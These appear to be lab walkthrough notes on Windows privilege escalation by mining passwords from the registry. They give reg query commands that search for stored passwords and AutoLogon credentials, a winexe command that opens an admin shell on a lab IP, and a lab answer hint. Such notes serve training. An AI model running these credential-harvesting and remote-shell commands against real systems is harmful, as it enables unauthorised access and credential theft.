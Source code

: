 ```yaml
---
tags:
  - PostExploitation
  - OperatingSystems
---
```

[Windows Local Privilege Escalation - Password Mining (Registry) - YouTube](https://www.youtube.com/watch?v=2fF4Xre-w2g&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=10)


(For some reason sometimes the password does not get stored in the registry. If this is the case, use the following as the answer: password123)

1. The registry can be searched for keys and values that contain the word "password":

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

2. If you want to save some time, query this specific key to find admin AutoLogon credentials:

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

3. On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):

```
winexe -U 'admin%password' //10.10.181.132 cmd.exe
```